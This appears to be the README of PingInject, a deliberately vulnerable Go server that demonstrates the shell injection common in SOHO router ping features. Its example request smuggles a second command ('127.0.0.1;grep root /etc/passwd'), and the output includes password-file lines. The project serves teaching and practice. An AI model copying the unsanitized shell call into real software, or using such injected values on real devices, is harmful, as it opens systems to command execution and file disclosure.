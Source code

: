 PingInject
==========
This is a little server meant for demonstrating the sort of shell injection
commonly found in the ping feature of SOHO routers.

Shell injection is a trick which takes advantage of a program which passes
unsanitized (or badly-sanitized) input straight to the shell.

Usage
-----
Should run pretty well out of the box.  By default, any query which has an `ip`
parameter will append its value to `/sbin/ping -c 4 `, run it in a shell, and
return stdout and stderr in the response.

Example
-------
Server:
```sh
$ go run github.com/magisterquis/pinginject
2019/09/21 11:37:48 Listening on 0.0.0.0:8080 for HTTP requests
2019/09/21 11:38:19 [127.0.0.1:28103] POST /ping.php Q: "127.0.0.1;grep root /etc/passwd" (516)
```
Client:
```sh
$ curl --data-urlencode 'ip=127.0.0.1;grep root /etc/passwd' 'localhost:8080/ping.php'                                                                               
PING 127.0.0.1 (127.0.0.1): 56 data bytes
64 bytes from 127.0.0.1: icmp_seq=0 ttl=255 time=0.016 ms
64 bytes from 127.0.0.1: icmp_seq=1 ttl=255 time=0.068 ms
64 bytes from 127.0.0.1: icmp_seq=2 ttl=255 time=0.066 ms
64 bytes from 127.0.0.1: icmp_seq=3 ttl=255 time=0.067 ms

--- 127.0.0.1 ping statistics ---
4 packets transmitted, 4 packets received, 0.0% packet loss
round-trip min/avg/max/std-dev = 0.016/0.054/0.068/0.022 ms
root:*:0:0:Charlie &:/root:/bin/ksh
daemon:*:1:1:The devil himself:/root:/sbin/nologin
```
